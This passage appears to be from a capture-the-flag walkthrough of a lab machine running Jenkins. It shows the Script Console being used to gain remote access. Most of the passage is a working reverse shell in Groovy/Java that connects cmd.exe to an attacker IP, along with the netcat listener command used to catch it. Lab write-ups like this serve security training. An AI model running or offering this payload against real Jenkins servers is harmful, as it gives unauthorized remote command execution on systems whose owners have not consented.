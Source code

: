 ![screenshot](/images/jeeves/jeeves_jenkins.png)

and it looks like we have a jenkins install. That's nice of them. We can go to `Manage Jenkins` and then `Script Console` and that gives us a place to run a script

![screenshot](/images/jeeves/jeeves_script.png)

Luckily, we have a revshell for this...

We start our listener:
```bash
nc -lvnp 4444
```
and drop this into the script area:
```java
String host="10.10.14.37";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
I swear everytime I see this I hear Wall-E say 'ta-daaaaa'
```bash
nc -lvnp 4444                                                                                                   
listening on [any] 4444 ...
```